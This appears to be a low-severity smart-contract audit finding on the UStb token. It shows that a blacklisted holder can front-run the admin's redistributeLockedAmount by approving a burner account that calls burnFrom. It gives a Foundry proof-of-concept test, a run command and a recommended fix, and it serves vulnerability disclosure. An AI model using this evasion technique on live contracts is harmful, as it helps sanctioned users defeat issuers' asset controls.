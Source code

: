 ```solidity
  function _approve(address owner, address spender, uint256 value) internal virtual override {
    if (hasRole(BLACKLISTED_ROLE, owner)) {
      revert OperationNotAllowed();
    }
    super._approve(owner, spender, value);
  }
```

# [L-07] Blacklisted users can front-run `redistributeLockedAmount` and burn their tokens

The UStb token contract includes a blacklist mechanism that restricts certain addresses from transferring tokens. It also provides an admin function to forcibly transfer tokens from blacklisted addresses to non-blacklisted ones.

However, there is a vulnerability where blacklisted users can front-run the redistributeLockedAmount function and burn their tokens. This allows them to prevent the admin from redistributing their tokens to another address. They achieve this by approving a burner account to spend and burn their tokens before the admin's redistribution takes place.

Here is a coded PoC to demonstrate the issue:

```solidity
    function testFrontrunRedistributeLockedAmount() public {
        address alex = makeAddr("Alex");
        address alexBurner = makeAddr("AlexBurner");

        vm.prank(minter_contract);
        UStbContract.mint(alex, _amount);

        vm.startPrank(newOwner);
        UStbContract.updateTransferState(IUStbDefinitions.TransferState.FULLY_ENABLED);
        UStbContract.grantRole(BLACKLISTED_ROLE, alex);
        vm.stopPrank();

        // Admin attempt to redistribute alex tokens
        // Alex (The blacklisted user) approve his burner account to spend his tokens
        // alexBurner calls burnFrom to burn Alex tokens

        vm.prank(alex);
        UStbContract.approve(alexBurner, _amount);

        vm.prank(alexBurner);
        UStbContract.burnFrom(alex, _amount);

        uint256 balanceBef = UStbContract.balanceOf(newOwner);

        vm.prank(newOwner);
        UStbContract.redistributeLockedAmount(alex, newOwner);

        uint256 balanceAft = UStbContract.balanceOf(newOwner);

        // newOwner received 0 tokens as they were all burned
        assert(balanceBef == balanceAft);
    }
```

- Incorporate the tests in `UStbTest`
- Execute: **`forge test --mc UStbTest --mt testFrontrunRedistributeLockedAmount`**

To mitigate this issue, consider adding access controls to the `burnFrom()` function to prevent blacklisted users from burning their tokens.
